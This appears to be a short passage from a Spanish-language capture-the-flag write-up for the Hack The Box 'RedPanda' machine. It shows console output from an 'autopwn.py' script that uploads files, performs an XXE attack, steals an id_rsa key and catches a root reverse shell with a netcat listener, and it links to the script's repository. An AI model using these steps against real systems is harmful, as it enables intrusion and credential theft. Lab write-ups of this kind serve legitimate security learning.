 ```console
❯ python3 autopwn.py -i 10.10.14.88 -p 1234
[▗] Starting attack: Starting reverse shell process
[*] workstation created
[*] .jpg uploaded
[*] .xml uploaded
[*] logs uploaded
[*] web server uploaded
[+] Files uploaded.
[+] Successful XXE attack.
[+] id_rsa_file downloaded

[+] Open port 1234 to receive shell. (e.g nc -lvnp 1234)
Press to continue...

────────────────────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.11.170.
Ncat: Connection from 10.10.11.170:39660.
bash: cannot set terminal process group (3930): Inappropriate ioctl for device
bash: no job control in this shell
root@redpanda:~# find / -name root.txt | xargs ls -l
find / -name root.txt | xargs ls -l
-rw-r----- 1 root root 33 Sep 23 04:50 /root/root.txt
```
> Puedes encontrar el script en mi repositorio [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/Auto-tools_Redpanda/autopwn/autopwn.py)
{: .prompt-info}
